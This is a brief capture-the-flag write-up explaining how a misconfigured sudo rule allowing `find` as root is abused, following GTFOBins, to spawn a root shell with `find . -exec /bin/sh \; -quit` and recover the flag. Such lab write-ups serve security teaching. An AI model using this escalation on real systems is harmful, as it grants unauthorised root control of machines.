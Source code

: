# Clippy (root)

When you login, you can run the command `sudo -l` to list what commands you can
run with superuser permissions.

```
Matching Defaults entries for clippy on 487881c1ed02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User clippy may run the following commands on 487881c1ed02:
    (ALL) NOPASSWD: /usr/bin/find

```

So, you can see that we are able to run `find` as root.

There is a website called GTFOBins[1] that lists ways to abuse common unix
commands.

The page for `find`[2] lists the following command for breaking out of restricted
shells, which is valid for this case:

```
find . -exec /bin/sh \; -quit
```


So, when we run that with sudo, we get a root shell.

Flag:
```
CTF{sudo_make_me_a_sandwich}
```


## References

* [1] https://gtfobins.github.io/
* [2] https://gtfobins.github.io/gtfobins/find/
